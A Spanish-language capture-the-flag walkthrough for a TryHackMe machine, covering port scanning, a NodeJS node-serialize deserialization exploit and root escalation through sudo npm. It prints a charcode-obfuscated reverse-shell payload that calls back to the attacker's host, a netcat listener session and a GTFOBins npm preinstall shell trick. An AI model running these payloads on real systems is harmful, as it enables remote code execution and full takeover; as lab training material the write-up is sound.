

| Link | Nivel | Creador |
|------|-------|---------|
| [Aquí](https://tryhackme.com/room/jason)  | Fácil  |  [elbee](https://tryhackme.com/p/elbee)  |


## Reconocimiento

Comenzando como en cada CTF, corremos `nmap` contra la máquina.

```bash
╰─ lanfran@parrot ❯ sudo nmap 10.10.237.12 -p- -sS --min-rate 5000 -n -Pn                                                          ─╯
[sudo] password for lanfran: 
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-12 20:11 CEST
Nmap scan report for 10.10.237.12
Host is up (0.25s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 23.81 seconds
```
¡Bien! ¡Encontramos un servidor web ejecutándose en el puerto `80`!

¡Vayamos directamente a el!


Es solo una página creada en `NodeJS` que nos muestra el correo electrónico que usamos.

Pero... ¡Tenemos una cookie de sesión!



Tal vez podamos decodificarla para ver qué tiene dentro... 

```bash
╰─ lanfran@parrot ❯ echo "eyJlbWFpbCI6ImFkbWluQGVtYWlsLmNvbSJ9" | base64 -d                                                        ─╯
{"email":"admin@mail.com"}% 
```

¡¡¡Excelente!!! ¡Sabemos que esta cookie almacena el correo electrónico que usamos como entrada!

## Acceso inicial - Usuario

Buscando en Google algún exploit de deserialización para NodeJS, encontré [este sitio](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)donde explican el exploit muy bien!

En resumen, necesitaremos crear un codigo para obtener una shell reversa en NodeJS, serializarlo y codificarlo en base64 para usarlo como nuestra cookie de sesión.

[Aquí está el archivo para crear el código para la shell reversa en NodeJS](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py)

Y después de obtener el código, puede usar la [online node-serialize](https://npm.runkit.com/node-serialize) librería para serializar su payload! [Aquí](https://runkit.com/embed/g49fa5tg1ozl) es una plantilla sobre cómo debería ser su código.

¡También te dejo el código a continuación!

```js
var y = {"email": function(){eval(String.fromCharCode(your_payload))}};

var serialize = require('node-serialize');
var serialezd = serialize.serialize(y);
console.log(serialezd)
```

Después de eso, no olvides agregar el último () al final del payload, como te explican en [esta publicación](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/)
.png)

Su código serializado debería verse similar a esto:
```js
{"email":"_$$ND_FUNC$$_function email() {\n          eval(String.fromCharCode(10, 118, 97, 114, 32, 110, 101, 116, 32, 61, 32, 114, 101, 113, 117, 105, 114, 101, 40, 39, 110, 101, 116, 39, 41, 59, 10, 118, 97, 114, 32, 115, 112, 97, 119, 110, 32, 61, 32, 114, 101, 113, 117, 105, 114, 101, 40, 39, 99, 104, 105, 108, 100, 95, 112, 114, 111, 99, 101, 115, 115, 39, 41, 46, 115, 112, 97, 119, 110, 59, 10, 72, 79, 83, 84, 61, 34, 49, 48, 46, 57, 46, 52, 46, 49, 49, 55, 34, 59, 10, 80, 79, 82, 84, 61, 34, 49, 51, 51, 55, 34, 59, 10, 84, 73, 77, 69, 79, 85, 84, 61, 34, 53, 48, 48, 48, 34, 59, 10, 105, 102, 32, 40, 116, 121, 112, 101, 111, 102, 32, 83, 116, 114, 105, 110, 103, 46, 112, 114, 111, 116, 111, 116, 121, 112, 101, 46, 99, 111, 110, 116, 97, 105, 110, 115, 32, 61, 61, 61, 32, 39, 117, 110, 100, 101, 102, 105, 110, 101, 100, 39, 41, 32, 123, 32, 83, 116, 114, 105, 110, 103, 46, 112, 114, 111, 116, 111, 116, 121, 112, 101, 46, 99, 111, 110, 116, 97, 105, 110, 115, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 105, 116, 41, 32, 123, 32, 114, 101, 116, 117, 114, 110, 32, 116, 104, 105, 115, 46, 105, 110, 100, 101, 120, 79, 102, 40, 105, 116, 41, 32, 33, 61, 32, 45, 49, 59, 32, 125, 59, 32, 125, 10, 102, 117, 110, 99, 116, 105, 111, 110, 32, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 32, 123, 10, 32, 32, 32, 32, 118, 97, 114, 32, 99, 108, 105, 101, 110, 116, 32, 61, 32, 110, 101, 119, 32, 110, 101, 116, 46, 83, 111, 99, 107, 101, 116, 40, 41, 59, 10, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 99, 111, 110, 110, 101, 99, 116, 40, 80, 79, 82, 84, 44, 32, 72, 79, 83, 84, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 118, 97, 114, 32, 115, 104, 32, 61, 32, 115, 112, 97, 119, 110, 40, 39, 47, 98, 105, 110, 47, 115, 104, 39, 44, 91, 93, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 119, 114, 105, 116, 101, 40, 34, 67, 111, 110, 110, 101, 99, 116, 101, 100, 33, 92, 110, 34, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 112, 105, 112, 101, 40, 115, 104, 46, 115, 116, 100, 105, 110, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 115, 116, 100, 111, 117, 116, 46, 112, 105, 112, 101, 40, 99, 108, 105, 101, 110, 116, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 115, 116, 100, 101, 114, 114, 46, 112, 105, 112, 101, 40, 99, 108, 105, 101, 110, 116, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 104, 46, 111, 110, 40, 39, 101, 120, 105, 116, 39, 44, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 111, 100, 101, 44, 115, 105, 103, 110, 97, 108, 41, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 101, 110, 100, 40, 34, 68, 105, 115, 99, 111, 110, 110, 101, 99, 116, 101, 100, 33, 92, 110, 34, 41, 59, 10, 32, 32, 32, 32, 32, 32, 32, 32, 125, 41, 59, 10, 32, 32, 32, 32, 125, 41, 59, 10, 32, 32, 32, 32, 99, 108, 105, 101, 110, 116, 46, 111, 110, 40, 39, 101, 114, 114, 111, 114, 39, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 101, 41, 32, 123, 10, 32, 32, 32, 32, 32, 32, 32, 32, 115, 101, 116, 84, 105, 109, 101, 111, 117, 116, 40, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 44, 32, 84, 73, 77, 69, 79, 85, 84, 41, 59, 10, 32, 32, 32, 32, 125, 41, 59, 10, 125, 10, 99, 40, 72, 79, 83, 84, 44, 80, 79, 82, 84, 41, 59, 10));\n        }()"}
```
_No olvides el último () !!!! De lo contrario, el payload no funcionará._

Después de eso, ¡codifíquelo en base64 y utilícelo como una cookie!

Actualizando la página, _mientras escuchamos en el puerto deseado_, ¡ahora deberíamos tener una shell reversa como `Dylan`!

```bash
╰─ lanfran@parrot ❯ nc -nlvp 1337                                                                                                  ─╯
listening on [any] 1337 ...
connect to [10.9.4.117] from (UNKNOWN) [10.10.237.12] 43016
Connected!
id
uid=1000(dylan) gid=1000(dylan) groups=1000(dylan)
cat /home/dylan/user.txt
0[REDACTED]c

```
## Root

¡Excelente! ¡Escalemos a root!

¡Un reconocimiento normal nos da información útil!

```bash
dylan@jason:~$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

¡Nuestro usuario puede ejecutar `npm` como` root`!

Usando [GTFOBins](https://gtfobins.github.io/gtfobins/npm/) podemos escalar fácilmente a root!

```bash 
dylan@jason:~$ TF=$(mktemp -d)
dylan@jason:~$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
dylan@jason:~$ sudo npm -C $TF --unsafe-perm i

> @ preinstall /tmp/tmp.mskP1rW5qW
> /bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
2[REDACTED]e
```

¡Y hemos rooteado la máquina!

Eso es todo de mi parte, ¡espero que lo encuentre útil!